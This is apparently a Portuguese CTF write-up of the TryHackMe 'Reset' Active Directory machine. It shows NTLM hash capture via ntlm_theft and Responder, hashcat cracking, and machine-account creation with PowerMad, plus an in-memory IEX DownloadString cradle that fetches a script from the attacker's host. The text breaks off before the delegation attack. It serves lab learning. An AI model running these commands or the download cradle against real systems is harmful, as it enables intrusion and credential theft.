> [!Informações]
> - O IP da máquina foi adicionado ao `/etc/hosts` com a URL `http://reset.thm/`
> - Período: 13/05/2025 á 15/05/2025
> - Máquina do `TryHackMe` de Nível Difícil
> - Sistema Operacional: Windows
> - O IP da máquina pode ir alterar ao decorrer das capturas de tela, mas o foco fica sendo os `hosts`

# Sumário
1. [[#Primeiras pegadas na aplicação]]
	1. [[#Mapeando a Rede com NMAP]]
	2. [[#Ferramenta de Execução de Rede (NetExec)]]
	3. [[#Enumeração de arquivos do SMB]]
2. [[#Iniciando a exploração]]
	1. [[#Acessando o `SMB`]]
	2. [[#Atividades da pasta `onboarding` dentro do Compartilhamento `SMB`]]
		1. [[#`Ntlm_Theft` & `Responder`]]
		2. [[#Entendendo o Formato da `Hash`]]
		3. [[#Tentativa de `Pass-the-Hash (PtH)`]]
		4. [[#Quebra da `Hash`]]
3. [[#Pós-Exploração]]
	1. [[#Obtendo informações sobre a vítima]]
		1. [[#Enumeração e busca de mais informações]]
			1. [[#Informações básicas sobre o usuário `AUTOMATE`]]
			2. [[#Sobre Delegações e Autenticação]]
				1. [[#`Entendendo AS-REP Roasting`]]
				2. [[#`Entendendo Kerberoasting`]]
			3. [[#Outras configurações relevantes]]
	2. [[#Abusando de Privilégios]]
		1. [[#`PowerMad.ps1`]]
		2. [[#`Powerview.ps1`]]
		3. [[#Recapitulação do que foi tentado]]
			1. [[#O que eu tinha feito]]
			2. [[#Mas tinha um problema]]
			3. [[#O papel do `Get-DomainComputer -TrustedToAuth`]]
			4. [[#Traduzindo]]
		4. [[#`Kerberoasting Reverso com SPN criado manualmente`]]
		5. [[#`RPCClient`]]
		6. [[#`AS-REP Roasting`]]
		7. [[#Usuário `TABATHA_BRITT`]]
			1. [[#Obtendo informações]]
			2. [[#`BloodHound` mais uma vez]]
			3. [[#Trocando a senha de outras contas]]
		8. [[#Usuário `SHAWNA_BRAY`]]
		9. [[#Usuário `CRUZ_HALL`]]
4. [[#Escalação de Privilégios por meio da usuário `DARLA_WINTERS`]]
	1. [[#Como funciona o ataque]]
		1. [[#Entendendo os Tickets]]
			1. [[#`TGT (Ticket Granting Ticket)`]]
			2. [[#`TGS (Ticket Granting Service Ticket)`]]
		2. [[#Etapa 1 - Gerar um TGS falso como se fosse o `administrator`]]
		3. [[#Etapa 2 - Exportar o ticket para o ambiente]]
		4. [[#Etapa 3 - Obtendo o shell como `administrator`]]

# Primeiras pegadas na aplicação

## Mapeando a Rede com NMAP

Como o acesso via navegador ao domínio ou IP fornecido não estava disponível (possivelmente por ausência de interface web ou filtragem de portas HTTP/HTTPS), iniciei a análise com um scan do `Nmap` para identificar os serviços expostos e suas respectivas versões.


Após analisar as informações coletadas pelo `NMap`, adicionei os registros correspondentes ao domínio e ao `hostname` identificados no arquivo `/etc/hosts`, a fim de facilitar a resolução de nomes durante os testes subsequentes.


## Ferramenta de Execução de Rede (NetExec)
### Enumeração de arquivos do SMB

Executei o `NetExec` com o objetivo de realizar a enumeração de serviços SMB e verificar possíveis compartilhamentos acessíveis, permissões e informações do domínio exposto pela máquina.


# Iniciando a exploração
## Acessando o `SMB`

Realizei o acesso ao serviço `SMB` para explorar os compartilhamentos disponíveis e identificar possíveis arquivos ou diretórios de interesse para a coleta de informações.


Acessei o compartilhamento **"Data"** via `SMB`, onde foi possível listar os arquivos disponíveis e realizar a análise inicial do conteúdo exposto.


O que chamou atenção inicialmente foi um arquivo com extensão `.txt` presente no compartilhamento. Após baixá-lo para minha máquina e analisá-lo localmente, foi possível identificar informações sensíveis que poderiam auxiliar na progressão do acesso ao sistema.

```
Subject: Welcome to Reset - Dear <USER>,Welcome aboard! We are thrilled to have you join our team. As discussed during the hiring process, we are sending you the necessary login information to access your company account. Please keep this information confidential and do not share it with anyone.The initial passowrd is: ResetMe123!We are confident that you will contribute significantly to our continued success. We look forward to working with you and wish you the very best in your new role.Best regards,The Reset Team
```

> [!Senha encontrada]
> ResetMe123!

## Atividades da pasta `onboarding` dentro do Compartilhamento `SMB`

Durante a análise da pasta **`onboarding`** no compartilhamento `SMB`, foi possível perceber que os nomes dos arquivos presentes estavam mudando constantemente a cada listagem. Esse comportamento sugere que há algum processo ou serviço automatizado interagindo com a pasta em tempo real — possivelmente relacionado à autenticação de algum usuário ou aplicação.

### `Ntlm_Theft` & `Responder`

Diante disso, levantei a hipótese de que essa atividade possa ser explorada para **sequestro de sessão NTLM**, utilizando ferramentas como `Responder` e `ntlm_theft`, com o intuito de capturar ou redirecionar hashes NTLM de máquinas ou usuários autenticando no ambiente.

`python3 ntlm_theft.py -g all -s 10.13.72.32 -f reset`


Com base nas informações coletadas, o próximo passo consiste em **enviar um arquivo para o compartilhamento**, possivelmente com o objetivo de explorar a interação automática observada na pasta. Essa ação visa induzir a máquina ou serviço que monitora o diretório a interagir com o arquivo, permitindo a **captura ou redirecionamento de autenticações via NTLM**.
`put "reset.lnk"`



Por fim, executei o **Responder** com o objetivo de capturar requisições de autenticação enviadas automaticamente pela máquina-alvo. Essa abordagem visa interceptar hashes NTLM que possam ser utilizados posteriormente em ataques como **Pass-the-Hash** ou **crackeamento offline**.

`sudo python3 Responder.py -I tun0`


> [!NTLMv2 Capturados]
> [SMB] NTLMv2-SSP Client   : 10.10.197.185
> [SMB] NTLMv2-SSP Username : THM\AUTOMATE
> [SMB] NTLMv2-SSP Hash     : AUTOMATE::THM:a331999d053ae862:23C3317612E1CB6FFD983FD9EE4D929A:010100000000000080F5746C25C4DB013DCC86B9033FA01E0000000002000800440051003100460001001E00570049004E002D004400410043004500440058005700410037005300370004003400570049004E002D00440041004300450044005800570041003700530037002E0044005100310046002E004C004F00430041004C000300140044005100310046002E004C004F00430041004C000500140044005100310046002E004C004F00430041004C000700080080F5746C25C4DB010600040002000000080030003000000000000000010000000020000036EE17A8674C04C908866CE1CB1AE87ADC2C14EA2337C89128A17787A7546E640A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310033002E00370032002E00330032000000000000000000

### Entendendo o Formato da `Hash`
`USERNAME::DOMAIN:LMHASH:NTHASH:NTLMV2_BLOB` -> Formato da HASH

| **Componente**      | **Valor de Exemplo**                  | Descrição                                                                                                                                              | Importância Prática                                                                                         |
| ------------------- | ------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------- |
| LM Hash             | a331999d053ae862                      | Hash do protocolo LM (antigo e inseguro). No NTLMv2, não é mais usado. Por compatibilidade, ainda é enviado com valor aleatório ou fixo (`aad3b435…`). | **Irrelevante** para quebra, mas necessário para a formatação da hash.                                      |
| NT Hash (NTLM Hash) | 23C3317612E1CB6FFD983FD9EE4D929A      | Hash MD4 da senha em UTF-16LE. Utilizado como base para gerar o HMAC-MD5 da resposta NTLMv2.                                                           | É **a parte que pode ser quebrada** com ferramentas como **Hashcat (modo 5600)**.                           |
| NTLMv2 BLOB         | `01010000...` (inicia com este valor) | Conjunto de dados assinado pelo NT hash. Contém client challenge, timestamp, target info e a HMAC assinatura final.                                    | É o **coração da autenticação NTLMv2**: o servidor valida a resposta com base nesse conteúdo criptografado. |

### Tentativa de `Pass-the-Hash (PtH)`
Realizei uma tentativa de **Pass-the-Hash (PtH)** utilizando a ferramenta **NetExec**, empregando as credenciais capturadas anteriormente (usuário e NTLM hash).
`netexec smb 10.10.197.185 -u AUTOMATE -H 'a331999d053ae862:23C3317612E1CB6FFD983FD9EE4D929A'`


### Quebra da `Hash`
A `hash NTLMv2` capturada foi salva em um arquivo de texto no formato compatível com o **Hashcat** (modo `5600`).
`hashcat -m 5600 -a 0 ntlm_hash /home/arthur-strelow/SecLists/Passwords/Leaked-Databases/rockyou.txt`


> [!Mais Credenciais]
> AUTOMATE::THM:a331999d.........000:Passw0rd1


# Pós-Exploração

Após a obtenção das credenciais, realizei a autenticação remota com sucesso utilizando a ferramenta `Evil-WinRM`, o que confirmou o acesso válido ao sistema alvo.


## Obtendo informações sobre a vítima

Com o comando `whoami /priv`, foi listado todas as permissões daquela conta

Ao analisar as duas últimas não chama muito atenção, mas a primeira permissão "SeMachineAccountPrivilege" está ativa. Esse privilégio permiti que o usuário crie novas máquinas no domínio. Isso pode ser explorado para:
- Criar uma conta de máquina maliciosa no domínio
- Forjar `TGT` com essa máquina usando `Kerberos Resource-Based Constrained Delegation (RBCD)`
- Utilizar ferramentas como `PowerMad` e `impacket/pywerview` para abuso

### Enumeração e busca de mais informações

Com o comando `Get-ADUser -Identity automate -Server thm.corp -Properties *` conseguimos listar todas as informações do usuário `automate`
```
AccountExpirationDate                :
accountExpires                       : 0
AccountLockoutTime                   :
AccountNotDelegated                  : False
AllowReversiblePasswordEncryption    : False
AuthenticationPolicy                 : {}
AuthenticationPolicySilo             : {}
BadLogonCount                        : 0
badPasswordTime                      : 133313338961654947
badPwdCount                          : 0
CannotChangePassword                 : False
CanonicalName                        : thm.corp/Tier 2/AZR/Test/auto
Certificates                         : {}
City                                 :
CN                                   : auto
codePage                             : 0
Company                              :
CompoundIdentitySupported            : {}
Country                              :
countryCode                          : 0
Created                              : 6/14/2023 8:10:20 AM
createTimeStamp                      : 6/14/2023 8:10:20 AM
Deleted                              :
Department                           :
Description                          :
DisplayName                          : auto
DistinguishedName                    : CN=auto,OU=Test,OU=AZR,OU=Tier 2,DC=thm,DC=corp
Division                             :
DoesNotRequirePreAuth                : False
dSCorePropagationData                : {6/16/2023 1:29:42 PM, 1/1/1601 12:00:01 AM}
EmailAddress                         :
EmployeeID                           :
EmployeeNumber                       :
Enabled                              : True
Fax                                  :
GivenName                            : auto
HomeDirectory                        :
HomedirRequired                      : False
HomeDrive                            :
HomePage                             :
HomePhone                            :
Initials                             :
instanceType                         : 4
isDeleted                            :
KerberosEncryptionType               : {}
LastBadPasswordAttempt               : 6/15/2023 8:18:16 PM
LastKnownParent                      :
lastLogoff                           : 0
lastLogon                            : 133916924492680513
LastLogonDate                        : 5/14/2025 10:34:09 AM
lastLogonTimestamp                   : 133916924492680513
LockedOut                            : False
logonCount                           : 72
logonHours                           : {255, 255, 255, 255...}
LogonWorkstations                    :
Manager                              :
MemberOf                             : {CN=Remote Management Users,CN=Builtin,DC=thm,DC=corp}
MNSLogonAccount                      : False
MobilePhone                          :
Modified                             : 5/14/2025 10:34:09 AM
modifyTimeStamp                      : 5/14/2025 10:34:09 AM
msDS-User-Account-Control-Computed   : 0
Name                                 : auto
nTSecurityDescriptor                 : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                       : CN=Person,CN=Schema,CN=Configuration,DC=thm,DC=corp
ObjectClass                          : user
ObjectGUID                           : 1d4ad54d-e14d-447a-925a-ed1f660d8a50
objectSid                            : S-1-5-21-1966530601-3185510712-10604624-1156
Office                               :
OfficePhone                          :
Organization                         :
OtherName                            :
PasswordExpired                      : False
PasswordLastSet                      : 6/15/2023 1:47:31 PM
PasswordNeverExpires                 : True
PasswordNotRequired                  : False
POBox                                :
PostalCode                           :
PrimaryGroup                         : CN=Domain Users,CN=Users,DC=thm,DC=corp
primaryGroupID                       : 513
PrincipalsAllowedToDelegateToAccount : {}
ProfilePath                          :
ProtectedFromAccidentalDeletion      : False
pwdLastSet                           : 133313104515740652
SamAccountName                       : AUTOMATE
sAMAccountType                       : 805306368
ScriptPath                           :
sDRightsEffective                    : 0
ServicePrincipalNames                : {}
SID                                  : S-1-5-21-1966530601-3185510712-10604624-1156
SIDHistory                           : {}
SmartcardLogonRequired               : False
State                                :
StreetAddress                        :
Surname                              :
Title                                :
TrustedForDelegation                 : False
TrustedToAuthForDelegation           : False
UseDESKeyOnly                        : False
userAccountControl                   : 66048
userCertificate                      : {}
UserPrincipalName                    : AUTOMATE@thm.corp
uSNChanged                           : 159801
uSNCreated                           : 15179
whenChanged                          : 5/14/2025 10:34:09 AM
whenCreated                          : 6/14/2023 8:10:20 AM
```

#### Informações básicas sobre o usuário `AUTOMATE`

| **Campo**            | Valor                                           | Observações                                                    |
| -------------------- | ----------------------------------------------- | -------------------------------------------------------------- |
| DistinguishedName    | CN=auto,OU=Test,OU=AZR,OU=Tier 2,DC=thm,DC=corp | Estrutura de OUs mostra que o usuário está em uma OU de “Test” |
| SamAccountName       | AUTOMATE                                        | Nome de login                                                  |
| UserPrincipalName    | AUTOMATE@thm.corp                               | Usado em autenticação Kerberos e LDAP                          |
| Enabled              | True                                            | Conta está ativa                                               |
| PasswordLastSet      | 6/15/2023                                       | Senha relativamente antiga (~11 meses)                         |
| PasswordNeverExpires | True                                            | ⚠️ Pode indicar conta de serviço ou negligência de política    |
| PasswordExpired      | False                                           | Conta não está forçando troca de senha                         |
| lastLogonTimestamp   | 5/14/2025 10:34:09 AM                           | A conta foi usada recentemente                                 |
| logonCount           | 72                                              | Número considerável de logons – pode ser usada ativamente      |
| MemberOf             | Remote Management Users                         | Usuário com permissão de WinRM                                 |
#### Sobre Delegações e Autenticação

| **Campo**                            | **Valor** | **Significado**                           |
| ------------------------------------ | --------- | ----------------------------------------- |
| DoesNotRequirePreAuth                | False     | ⚠️ Não vulnerável a AS-REP Roasting       |
| TrustedForDelegation                 | False     | Não pode delegar por padrão               |
| TrustedToAuthForDelegation           | False     | Não usa constrained delegation            |
| PrincipalsAllowedToDelegateToAccount | {}        | Nenhuma conta pode delegar para essa      |
| `ServicePrincipalNames` (SPNs)       | {}        | ⚠️ Conta não está exposta a Kerberoasting |
##### `Entendendo AS-REP Roasting`
- **Explora contas com `Do not require Kerberos preauthentication` habilitado.**
- Permite solicitar um `AS-REP` sem fornecer prova de identidade.
- O KDC responde com um `ticket` **criptografado com o hash da senha do usuário**.
- Esse `ticket` pode ser **quebrado offline** (ex: Hashcat) para descobrir a senha.
- **Ferramenta comum:** `GetNPUsers.py` (Impacket)
##### `Entendendo Kerberoasting`
- **Explora contas com `SPNs (Service Principal Names)`** registrados.
- Um usuário autenticado no domínio pode solicitar um `TGS` para o serviço `(SPN)`.
- O `TGS` vem **criptografado com o hash NTLM do serviço**.
- Pode ser **quebrado offline** para obter a senha da conta de serviço.
- **Ferramentas comuns**: `GetUserSPNs.py`, `Rubeus`

#### Outras configurações relevantes

| **Campo**                         | **Valor** | **Observações**                               |
| --------------------------------- | --------- | --------------------------------------------- |
| AccountExpires                    | 0         | Nunca Expira                                  |
| CannotChangePassword              | False     | Pode trocar senha (mas irrelevante sem GUI)   |
| AllowReversiblePasswordEncryption | False     | Boa prática de segurança                      |
| BadLogonCount                     | 0         | Nenhuma tentativa de login falha recentemente |
| userAccountControl                | 66048     | Decodifica como: `NORMAL_ACCOUNT              |

## Abusando de Privilégios

### `PowerMad.ps1`
Como descobri anteriormente que há um privilégio que posso abusar utilizando o módulo `powermad.ps1`, primeiramente faço a importação dele na máquina da vítima.

Primeiro, criei uma variável para converter a senha em uma `SecureString` (como exigido pelo módulo), e em seguida executei o comando para criar uma nova máquina no domínio.

`New-MachineAccount -MachineAccount evilpc -Password $Password -Verbose`


### `Powerview.ps1`

O próximo passo seria importar o módulo `Powerview.ps1` para dar prosseguimento à enumeração, porém o antivírus estava bloqueando sua execução.



Outra tentativa realizada foi executar o script diretamente na memória, sem necessidade de salvá-lo em disco, porém o antivírus também bloqueou essa abordagem.
`IEX (New-Object Net.WebClient).DownloadString('http://10.13.72.32:8000/Powerview.ps1')`


Após inúmeros testes para verificar se a flag `TrustedToAuthForDelegation` estava ativa foi verificado que não está.
### Recapitulação do que foi tentado
#### O que eu tinha feito
1. Uma conta comum no domínio foi invadida, cujo nome é `AUTOMATE`.
2. O Privilégio `SeMachineAccountPrivilege` foi abusado para **criar um computador falso** no domínio: `evilpc$`.
3. Agora o objetivo é usar esse `evilpc$` para **se passar por um usuário privilegiado** (como o `Administrator`) e invadir outro computador com mais acesso.

#### Mas tinha um problema
Para se passar por outro usuário (como `Administrator`), **precisaria de um computador no domínio que aceite esse tipo de "encenação"**.

Esse tipo de computador tem a seguinte **configuração no AD**:

